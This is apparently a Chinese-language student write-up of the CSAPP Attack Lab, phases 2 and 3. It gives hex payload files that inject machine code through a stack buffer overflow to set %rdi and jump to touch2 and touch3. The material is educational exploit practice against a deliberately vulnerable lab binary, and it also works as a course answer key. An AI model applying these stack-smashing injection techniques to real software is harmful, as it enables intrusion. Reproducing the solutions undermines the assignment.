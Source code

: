 通过对CSAPP的学习，我们可以知道当寄存器数量足够时，函数的参数是在寄存器中传递的，且第一个被使用的寄存器即为 `%rdi` 。因此，在本部分中，我们需要在缓冲区中插入汇编代码，使得cookie的数值表示被传入`%rdi`寄存器。

在这里我们可以直接编写汇编代码`ctarget2-help.s`，在编译后通过`objdump -d ctarget2-help.o > ctarget2-help.d`得到汇编代码相应的机器代码。

为了执行我们插入缓冲区的汇编代码，覆盖后的返回地址应当为缓冲区汇编代码的起始地址，并且在完成寄存器的赋值操作后，我们需要以某种方式使得控制流从缓冲区转移至`touch2`。在这里，我们可以通过`push <addr>`的方式在栈帧中压入`touch2`的入口地址，使得`%rsp`寄存器指向该地址，再调用`ret`返回至`touch2`。可以构造如下的hex文件`ctarget2.txt`：

```
48 c7 c7 fa 97 b9 59 /* movq $0x59b997fa,%rdi */
68 ec 17 40 00       /* push $0x4017ec (the address of touch2 is pointed by %rsp) */
c3                   /* ret */
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00
78 dc 61 55          /* address of movq */
```

### phase3

在本部分中，我们需要以字符串的形式cookie作为参数执行`touch3`：

```C
1 /* Compare string to hex represention of unsigned value */ 
2 int hexmatch(unsigned val, char *sval)
3 { 
4 	char cbuf[110];
5 	/* Make position of check string unpredictable */ 6 char *s = cbuf + random() % 100;
7 	sprintf(s, "%.8x", val);
8 	return strncmp(sval, s, 9) == 0;
9 } 
10
11 void touch3(char *sval)
12 {
13 	vlevel = 3; /* Part of validation protocol */
14 	if (hexmatch(cookie, sval)) {
15 		printf("Touch3!: You called touch3(\"%s\")\n", sval);
16 		validate(3);
17 	} else {
18 		printf("Misfire: You called touch3(\"%s\")\n", sval);
19 		fail(3);
20 	}
21 	exit(0);
22 }
```

在这里我们需要在栈帧中存入cookie字符串，并给`%rdi`寄存器赋以栈帧中字符串的起始地址。值得注意的是，在`hexmatch`函数中分配了很大的缓冲区，因此我们保存cookie字符串的位置应当在栈帧的高地址处，以避免被该缓冲区覆盖。可以构造如下的hex文件`ctarget3`：

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
48 c7 c7 b0 dc 61 55    /* movq $0x5561dcb0,%rdi (address of the cookie's string) */
68 fa 18 40 00          /* push $0x4018fa (the address of touch3 be pointed by %rsp) */
c3                      /* ret */
00 00 00
90 dc 61 55 00 00 00 00 /* the address of movq */
00 00 00 00 00 00 00 00
35 39 62 39 39 37 66 61 /* the cookie's string */
```
